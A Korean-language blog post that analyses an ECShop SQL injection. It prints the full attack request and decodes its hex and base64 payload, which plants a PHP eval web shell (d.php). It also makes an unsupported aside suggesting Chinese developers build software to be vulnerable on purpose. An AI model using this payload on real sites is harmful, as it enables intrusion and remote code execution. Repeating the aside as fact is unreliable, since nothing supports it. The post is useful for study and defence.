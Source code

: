 ```yaml
---
layout: post
title: '[위협] ECShop_SQL_Injection'
subtitle: 'threat, ecshop, sql injection'
categories: threat
tags: application
comments: true
---
```


> 이 글은 어플리케이션 취약점을 분석한 글입니다. 

# ECShop_SQL_Injection

ECShop은 전자 상거래 플랫폼 구축 소프트웨어, 쉽게 표현하면 인터넷 쇼핑몰의 틀을 제공해주는 오픈소스 플랫폼입니다.<br>
ZoomEye사이트에서 검색해본 결과 아이러니하게도 미국에서 제일 많이 쓰이고 있습니다.

> 중국에서 만들어진 웹 프레임워크인데... 중국은 본인들이 만들고 본인들이 공격하기를 좋아하는 것 같다. 일부러 취약하게 만드는 걸 수도...

## 실제 공격 구문

```xml
GET /user.php?act=login HTTP/1.1 또는 /fdgq.php
Connection: Keep-Alive
Accept: */*
Referer=554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:280:"*/ union select 1. 0x272f2a.
3. 4. 5. 6. 7. 8. 0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a5639
7764585266593239756447567564484d6f4a325175634768774a79776e50443977614841675a585a686243676B5831
4250553152625a5630704f79412f506d4669597963702729293b2f2f7d787878
```

각각의 부분을 살펴보면 user.php의 act 파라미터에 login 값을 전달할 경우 referer에 있는 값이 전달됩니다.<br>
554fcae493e564ee0dc75bdf2ebf94ca ads는 문자열을 자르기 위한 hash 값으로, 이후 lib_insert.php의 insert_ads() 함수를 호출하기 위해 사용됩니다. 

|a:2:{s:3:"num";s:280:"*/ 는 배열을 임의의 값으로 채우고 주석처리하는 역할, 이후 union select 구문을 사용하여 SQL Injection을 진행합니다. 

UNION 구문안에 존재하는 값 중 2,9 컬럼을 제외한 나머지 컬럼은 컬럼의 수를 맞추기 위해 임의의 값을 입력했고,

2번째 컬럼(0x272f2a)은 ' /* 문자열로 뒷부분을 주석처리를 하기 위해서 사용합니다. 

9번째 컬럼에서
```bash
0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756
447567564484d6f4a325175634768774a79776e50443977614841675a585a686243676B58314250553152625a563070
4f79412f506d4669597963702729293b2f2f7d787878
```
는 {$asd'];assert(base64_decode('ZmlsZV9wdXRfY29udGVudHMoJ2QucGhwJywnPD9waHAgZXZhbCgkX1BPU1RbZV0pOyA/PmFiYycp'));//}xxx 문자열로<br>
base64로 암호회된 문자열이 디코딩 되는지 확인(assert,디버깅) 하기위해서 사용하는 구문입니다. (assert()대신에 php_info()쓰는 경우도 존재)

***해당 구문을 디코딩하면 file_put_contents('d.php','<?php eval($_POST[e]); ?>abc') 라는 구문이 나옵니다.***
